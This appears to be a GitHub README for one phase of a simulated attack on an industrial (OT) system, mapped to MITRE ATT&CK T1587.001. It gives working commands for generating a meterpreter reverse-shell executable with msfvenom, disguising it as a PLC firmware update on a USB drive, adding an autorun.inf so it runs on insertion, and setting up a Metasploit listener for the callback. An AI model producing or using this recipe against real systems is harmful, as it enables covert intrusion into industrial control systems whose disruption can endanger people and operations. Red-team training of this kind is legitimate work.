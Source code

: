 # OT Firmware Update Attack Scenario - Step 2: Resource Development

## Scenario Overview

In this phase, the attacker develops a malicious program to be delivered via a USB thumb drive. The USB will be disguised as a legitimate firmware update for the target OT system, obtained through the information gathered during the **Reconnaissance** phase.

- **MITRE ATT&CK Technique**: [T1587.001 - Develop Capabilities: Malware](https://attack.mitre.org/techniques/T1587/001/)

## Objective

The goal is to craft a malicious executable that will run automatically when inserted into the target OT system, allowing the attacker to gain control or disrupt operations.

## Steps to Execute Resource Development

### 1. Create a Malicious Payload Using `msfvenom`

The malicious program can be generated using **Metasploit**’s `msfvenom` tool. This payload will be disguised as a firmware update and executed when inserted into the OT system.

#### Command to Generate a Payload:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.51.10 LPORT=4444 -f exe -o firmware_update.exe
```

- LHOST: IP address of the attacker's machine (M1) where the reverse shell will connect.
- LPORT: Port to listen for the reverse shell connection.
- -f exe: Specifies the format of the output file as a Windows executable.
- firmware_update.exe: The name of the malicious file disguised as a firmware update.


### 2. Load the Payload onto a USB Thumb Drive
Once the malicious executable is created, it needs to be placed on a USB thumb drive:

- Insert the USB drive into the attacker's machine (M1).

- Copy the malicious payload onto the drive:
```
cp firmware_update.exe /media/usb-drive/
```
- Rename the file to something that looks legitimate, such as:
```
mv /media/usb-drive/firmware_update.exe /media/usb-drive/PLC_Firmware_Update.exe
```

### 3. Configure Autorun (Optional)
For systems that still support autorun (e.g., legacy Windows-based OT workstations), you can create an autorun.inf file to automatically execute the malicious file when the USB drive is inserted:

- Create an autorun.inf file on the USB drive:
```
echo "[autorun]" > /media/usb-drive/autorun.inf
echo "open=PLC_Firmware_Update.exe" >> /media/usb-drive/autorun.inf
```
- Save and safely eject the USB drive.

### 4. Test the Malicious Payload
Test the payload to ensure it works as expected by running the PLC_Firmware_Update.exe on a virtual machine or test system. You can listen for the reverse shell on the attacker's machine (M1) using Metasploit:

#### Set up a Metasploit Listener:
```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.51.10
set LPORT 4444
exploit
```
When the payload is executed, the attacker will gain a reverse shell into the system.

## Next Steps
Once the malicious USB drive is prepared, it will be delivered to the target via social engineering in the Initial Access phase.

## Summary
In the Resource Development (T1587.001) phase, the attacker creates a malicious program that will be loaded onto a USB thumb drive, disguised as a legitimate firmware update. This payload is designed to provide the attacker with access to the OT system when inserted and executed by the target.


```
This `README.md` outlines how the attacker prepares the malicious payload and USB drive during the **Resource Development** phase of the attack.
```
